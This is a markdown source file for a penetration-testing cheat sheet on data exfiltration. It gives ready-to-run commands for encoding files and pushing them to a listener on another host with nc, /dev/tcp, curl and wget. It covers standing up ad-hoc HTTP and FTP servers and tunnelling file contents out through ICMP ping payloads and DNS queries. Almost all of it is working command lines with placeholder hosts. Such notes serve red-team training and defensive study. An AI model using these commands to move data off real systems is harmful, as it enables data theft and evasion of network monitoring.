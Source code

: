 ```yaml
---
title: Exfiltration
weight: 600
---
```


# Exfiltration

Data exfiltration,
also called data extrusion or data exportation,
is the unauthorized transfer of data
from a device or network.[^mitre-exfiltration]

## Encoding

### Base64

Linux encoding/decoding.

```sh
cat {{< param "m.TFILE" >}} | base64 -w0
```

```sh
cat {{< param "m.TFILE" >}} | base64 -d
```

{{<details "Parameters">}}
- `-w<col>`:  wrap encoded lines after `<col>` character (default 76).
- `-d`: decode data.
{{</details>}}

Windows encoding/decoding.

```ps
certutil -encode {{< param "m.TFILE" >}} output.ext
```

```ps
certutil -decode {{< param "m.TFILE" >}} output.ext
```

### Steganography

#### Cloakify [^cloakify]
```sh
python ./cloakify.py {{< param "m.TFILE" >}} ./ciphers/topWebsites
```

Alternatively:

```sh
python ./cloakifyFactory
```

## File Transfer

#### wget (recursive)

```sh
wget -r {{< param "m.RHOST" >}}:{{< param "m.LPORT" >}}
```
{{<details "Parameters">}}
- `-r`: Specify recursive download.
{{</details>}}

#### curl
```sh
curl {{< param "m.RHOST" >}}/{{< param "m.TFILE" >}} -o {{< param "m.TFILE" >}}
```
{{<details "Parameters">}}
- `-o <file>`:  Write to `<file>` instead of stdout.
{{</details>}}

#### scp
```sh
scp user@{{< param "m.RHOST" >}}:/{{< param "m.TFILE" >}} .
```

#### nc

```sh
# Receiver
nc -nvlp {{< param "m.LPORT" >}} > {{< param "m.TFILE" >}}
# Sender
nc -nv {{< param "m.LHOST" >}} {{< param "m.LPORT" >}} < {{< param "m.TFILE" >}}
```

{{<details "Parameters">}}
- `n`: don't do DNS lookups.
- `v`: prints status messages.
- `l`: listen.
- `p <port>`: local port used for listening.
{{</details>}}

#### `/dev/tcp` [^devref]
```sh
# Receiver
nc -nvlp {{< param "m.LPORT" >}} > {{< param "m.TFILE" >}}
# Sender
cat {{< param "m.TFILE" >}} > /dev/tcp/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}}
```

```sh
# Sender
nc -w5 -nvlp {{< param "m.LPORT" >}} < {{< param "m.TFILE" >}}
# Receiver
exec 6< /dev/tcp/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}}
cat <&6 > {{< param "m.TFILE" >}}
```

## Web Servers

### Python

```sh
python -m SimpleHTTPServer {{< param "m.LPORT" >}}
python3 -m http.server {{< param "m.LPORT" >}}
```

[Simple HTTP Server with File Upload](https://gist.github.com/touilleMan/eb02ea40b93e52604938)

### Ruby

```sh
ruby -run -e httpd . -p{{< param "m.LPORT" >}}
```

```sh
ruby -r webrick -e 'WEBrick::HTTPServer.new(:Port => {{< param "m.LPORT" >}}, :DocumentRoot => Dir.pwd).start'
```

### Perl

```sh
perl -MHTTP::Daemon -e '$d = HTTP::Daemon->new(LocalPort => {{< param "m.LPORT" >}}) or  +die $!; while($c = $d->accept){while($r = $c->get_request){+$c->send_file_response(".".$r->url->path)}}'
```

{{<hint m.ING>}}
Install `HTTP:Daemon` if not present with: `sudo cpan HTTP::Daemon`
{{</hint>}}

### PHP

```sh
php -S 127.0.0.1:{{< param "m.LPORT" >}}
```

### NodeJS

[http-server](https://www.npmjs.com/package/http-server)

```sh
npm install -g http-server
http-server -p {{< param "m.LPORT" >}}
```

[node-static](https://www.npmjs.com/package/node-static)

```sh
npm install -g node-static
static -p {{< param "m.LPORT" >}}
```

## FTP Servers

### Python

```sh
pip install pyftpdlib
python3 -m pyftpdlib -p {{< param "m.LPORT" >}}
```

### NodeJS

```sh
npm install -g ftp-srv
ftp-srv ftp://0.0.0.0:{{< param "m.LPORT" >}} --root ./
```

## Tunneling

### ICMP

Capture ICMP packets
with the following script:

{{<gist maxrodrigo a7a8c4bd7dfe64eb305b4c70dee70233 >}}

Generate ICMP packets from the file hexdump.

```sh
xxd -p -c 8 {{< param "m.TFILE" >}} | while read h; do ping -c 1 -p $h {{< param "m.RHOST" >}}; done
```

{{<details "Parameters">}}

`xxd`:
- `-p`: Output  in postscript continuous hexdump style. Also known as plain hexdump style.
- `-c <cols>`: Format `<cols>` octets per line.

`ping`:
- `-c <count>`: Stop after sending `<count>` `ECHO_REQUEST` packets.
- `-p`: You may specify up to 16 "pad" bytes to fill out the packet you send.
{{</details>}}

{{<hint m.ING>}}
Match `xxd` columns (`-c 8`) with the data sliced (`packet[ICMP].load[-8:]`) in the script.
{{</hint>}}

### DNS

Capture DNS packets data.

```sh
sudo tcpdump -n -i {{< param "m.LIFACE" >}} -w dns_exfil.pcap udp and src {{< param "m.RHOST" >}} and port 53
```

{{<hint m.ING>}}
Remember to point the DNS resolution to where packages are being captured.
{{</hint>}}

Generate DNS queries.

```sh
xxd -p -c 16 {{< param "m.TFILE" >}} | while read h; do ping -c 1 ${h}.domain.com; done
```

Extract exfiltrated data.

```sh
tcpdump -r dns-exfil.pcap 2>/dev/null | sed -e 's/.*\ \([A-Za-z0-9+/]*\).domain.com.*/\1/' | uniq | paste -sd "" - | xxd -r -p
```

#### PacketWhisper [^packetwhisper]

Capture packages with `tcpdump`,
as described above.
Cloak, exfiltrate and decloak from the cli.

```sh
sudo packetWhisper.py
```

## Further Reading

- [Python HTTPS Simple Server](https://www.maxrodrigo.com/notes/python-https-simple-server.html)

[^mitre-exfiltration]: “Exfiltration, Tactic TA0010 - Enterprise.” MITRE ATT&CK®, https://attack.mitre.org/tactics/TA0010/.
[^cloakify]: TryCatchHCF. “TryCatchHCF/Cloakify: CloakifyFactory.” GitHub, https://github.com/TryCatchHCF/Cloakify.
[^devref]: “/Dev.” The Linux Documentation Project, https://tldp.org/LDP/abs/html/devref1.html.
[^packetwhisper]: TryCatchHCF. “PacketWhisper.” GitHub, https://github.com/TryCatchHCF/PacketWhisper.
